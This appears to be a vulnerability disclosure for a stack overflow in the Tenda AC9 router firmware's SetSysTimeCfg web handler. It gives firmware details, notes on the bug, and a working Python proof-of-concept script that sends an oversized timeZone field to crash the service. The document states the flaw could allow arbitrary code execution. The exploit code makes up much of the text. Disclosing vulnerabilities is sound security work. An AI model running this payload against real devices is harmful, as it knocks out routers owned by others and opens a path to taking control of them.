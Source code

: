 # Tenda_AC9_Settime_stack_overflow

Vender ：Tenda

Firmware version:US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-2908.html



#### Describe

​	In Tenda AC9 ,firemware is US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin，When setting the system time / goform / setsystimecfg, the data length of the post request is not limited, resulting in stack overflow. Overwriting the return address will lead to arbitrary code execution.

#### Detail

​	fromSetSysTime function in IDA

<img src="./img/image-20210917162121669.png" alt="image-20210917162121669" style="zoom:50%;" />

 	Therefore, if you do not enter a semicolon and replace it with a long string, it will cause stack overflow 

<img src="./img/image-20210917162353124.png" alt="image-20210917162353124" style="zoom:50%;" />

If it is filled randomly, the service will be denied 

POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"


payload = "a"*0x200

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	#"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
	"timePeriod":"",
	"ntpServer":"",
	"timeZone":"a"*0x400
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/system_time.html?random=0.08358353685483821&",
	"Upgrade-Insecure-Requests":"1",
	"Cookie":"password=wnucvb"
}

response = requests.request("POST", url, headers=headers, data=data)
```

